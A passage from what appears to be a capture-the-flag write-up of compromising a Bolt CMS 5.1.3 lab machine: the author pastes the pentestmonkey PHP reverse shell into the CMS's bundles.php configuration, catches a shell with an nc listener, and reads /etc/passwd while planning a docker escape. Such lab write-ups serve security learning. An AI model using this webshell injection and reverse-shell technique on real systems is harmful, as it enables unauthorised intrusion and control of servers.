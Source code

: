 ```
```Bolt version 5.1.3``` has no public vulnerability that would be easy to go for.

I tried to upload a php reverse shell, like I would normally do with ```WordPress```, but php file uploads were forbidden. So i've checked for existing ```.php``` files and tried to inject my webshell in there.

I copied https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php into the ```bundles.php``` file under ```Configuration>All Configurations>Bundles.php``` and configured ```$ip``` and ```$port```.
After reloading the page I immeditaly recieved a shell but that broke the application. 

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242             
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242


Ncat: Connection from 10.10.11.155.
Ncat: Connection from 10.10.11.155:44970.
Linux afc2481daa81 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64 GNU/Linux
 11:41:19 up 13 min,  0 users,  load average: 0.00, 0.05, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ $ $ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

```
## 2nd Docker Container Enumeration
```/etc/passwd``` indicated that no other user was interesting enough to pivot to, so we probably have to deal with a ```docker escape```.

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin